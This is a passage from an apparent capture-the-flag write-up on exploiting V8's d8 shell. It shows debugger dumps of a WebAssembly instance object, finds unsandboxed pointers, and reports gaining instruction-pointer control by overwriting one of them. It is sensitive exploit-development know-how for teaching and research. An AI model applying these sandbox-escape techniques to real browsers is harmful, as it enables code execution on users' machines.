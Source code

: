 ```py
0x12af00197ff5 <Instance map = 0x12af00195f89>
pwndbg> tele 0x12af00197ff4
00:0000│  0x12af00197ff4 ◂— 0x225900195f89
01:0008│  0x12af00197ffc ◂— 0x225900002259 /* 'Y"' */
02:0010│  0x12af00198004 ◂— 0x34c900002259 /* 'Y"' */
03:0018│  0x12af0019800c ◂— 0x34c9
04:0020│  0x12af00198014 ◂— 0x180010000000000
05:0028│  0x12af0019801c ◂— 0x10000
06:0030│  0x12af00198024 —▸ 0x5555569b5b60 —▸ 0x7ffffff07c60 ◂— 0x7ffffff07c60
07:0038│  0x12af0019802c —▸ 0x555556a1ba70 ◂— 0x500000000
08:0040│  0x12af00198034 ◂— 0x0
09:0048│  0x12af0019803c ◂— 0x0
0a:0050│  0x12af00198044 ◂— 0xffffffffff000000
0b:0058│  0x12af0019804c —▸ 0x5555569b5b40 —▸ 0x12af00000000 ◂— 0xb000
0c:0060│  0x12af00198054 —▸ 0x3a0e9c984000 ◂— jmp 0x3a0e9c984640 /* 0xcccccc0000063be9 */
0d:0068│  0x12af0019805c —▸ 0x5555569c2a48 —▸ 0x12af0005213c ◂— 0x5bd88000022c9
0e:0070│  0x12af00198064 —▸ 0x5555569c2a40 —▸ 0x12af000497e4 ◂— 0x0
0f:0078│  0x12af0019806c —▸ 0x5555569c2a68 —▸ 0x12af001c0000 ◂— 0x0
10:0080│  0x12af00198074 —▸ 0x5555569c2a60 —▸ 0x12af00198224 ◂— 0x0
11:0088│  0x12af0019807c —▸ 0x5555569b5b50 —▸ 0x7ffffff07c60 ◂— 0x7ffffff07c60
12:0090│  0x12af00198084 —▸ 0x5555569d7889 ◂— 0x100000000
13:0098│  0x12af0019808c —▸ 0x555556a270c0 ◂— 0x7fff001b7740
14:00a0│  0x12af00198094 ◂— 0x34c9000034c9
15:00a8│  0x12af0019809c ◂— 0x4958d000034c9
16:00b0│  0x12af001980a4 ◂— 0x182dad0004975d
17:00b8│  0x12af001980ac ◂— 0x23e100197fb1
```

Most of the pointers appear to be sandboxed now but there are still a few that are not. I started experimenting by overwriting each of those with 0x41414141 in GDB before calling into the wasm code and got some crashes. The most interesting one was from overwriting the pointer at offset 0x60 because it gave us RIP control:

```py
Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────────
*RAX  0x13371337
*RBX  0x7fffffffd400 —▸ 0x7fffffffd420 ◂— 0xe
*RCX  0x555555f55631 ◂— mov rax, rbx
*RDX  0x13381338
*RDI  0x555556a18620 —▸ 0x555556a0fbe0 ◂— 0x0
*RSI  0x1ccc00198735 ◂— 0x590000225900195f
*R8   0x3e359ccb128
*R9   0x1ccc00198735 ◂— 0x590000225900195f
*R10  0x7ffff7fbd080
*R11  0x7ffff7fbd090
*R12  0x2
 R13  0x5555569b2420 —▸ 0x1ccc00000000 ◂— 0xb000
 R14  0x1ccc00000000 ◂— 0xb000
*R15  0x41414141
*RBP  0x7fffffffd428 —▸ 0x7fffffffd508 —▸ 0x7fffffffd560 —▸ 0x7fffffffd588 —▸ 0x7fffffffd5f0 ◂— ...
*RSP  0x7fffffffd3b8 —▸ 0x5554dff10256 ◂— lea rsp, [rbp - 0x48]
*RIP  0x41414141
───────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────
Invalid address 0x41414141
```


[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.